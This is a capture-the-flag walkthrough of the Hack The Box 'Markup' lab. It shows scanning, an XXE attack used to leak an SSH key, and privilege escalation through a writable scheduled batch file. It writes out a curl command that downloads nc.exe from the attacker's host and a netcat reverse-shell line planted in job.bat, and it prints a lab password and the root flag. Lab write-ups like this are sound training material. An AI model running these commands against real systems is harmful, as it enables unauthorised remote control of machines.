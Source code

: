 # Starting Point - Markup

## Enumeration

```
rustscan 10.10.10.49 -- -sC -sV -o port_scan

PORT    STATE SERVICE REASON
22/tcp  open  ssh     syn-ack
80/tcp  open  http    syn-ack
443/tcp open  https   syn-ack
```

### Examining Port 80 - Apache Server

![](pics/login.png)

When accessing the open port 80 via a browser, we can see a login page. In the previous machine (Included), we found the credentials `Daniel:>SNDv*2wzLWf` stored in a SQL dump. Using them, we can successfully login and we are redirected to the application's website, which seems to be some kind of online store / delivery service.
![](pics/delivery.png)

The website provides several functionalities, one of which is for submitting orders. 

![](pics/order.png)

When submitting an order (with test data), and intercepting the request with Burpsuite, we can see that the content is XML.

![](pics/burp-order.png)

There is a good chance of an XXE (XML External Entity) vulnerability. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

Let's try it:

![](pics/xxe_proof.png)

Perfect! It works.

Now what can we do? We know that there is an open SSH port. And we also know that `Daniel` is a valid user. Maybe we can leak the private SSH key and use it to connect to the server.

![](pics/ssh_key_leak.png)

Using this key as the identitfier for the ssh connection we get access to the machine!

```
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

daniel@MARKUP C:\Users\daniel>whoami
markup\daniel
```

## Exploitation

Enumerating the system, reveals a script named `job.bat` which is located in the `C:\Log-Management` directory:

```
daniel@MARKUP C:\Log-Management>type job.bat
@echo off
FOR /F "tokens=1,2*" %%V IN ('bcdedit') DO SET adminTest=%%V
IF (%adminTest%)==(Access) goto noAdmin
for /F "tokens=*" %%G in ('wevtutil.exe el') DO (call :do_clear "%%G")
echo.
echo Event Logs have been cleared!
goto theEnd
:do_clear
wevtutil.exe cl %1
goto :eof
:noAdmin
echo You must run this script as an Administrator!
:theEnd
exit
```

Looking at the permissions, we see that the group `BUILTIN\Users` has full control (F) over the file. This also includes our current user daniel.

```
daniel@MARKUP C:\Log-Management>icacls job.bat
job.bat BUILTIN\Users:(F)
        NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
```

The idea is to replace the current code with a reverse shell, which will then be executed by an administrator (similar to cron jobs on unix). But therefore, we first must upload the nc.exe so that we can establish a reverse shell.

```
curl http://10.10.14.15/nc.exe -o c:\users\daniel\nc.exe

echo C:\Users\daniel\nc.exe -e cmd.exe 10.10.14.15 4444 > C:\Log-Management\job.bat
```

Now we wait and eventually receive a root-shell:

![](pics/rootshell.png)

Final step is to obtain the root flag: `f574a3e7650cebd8c39784299cb570f8`
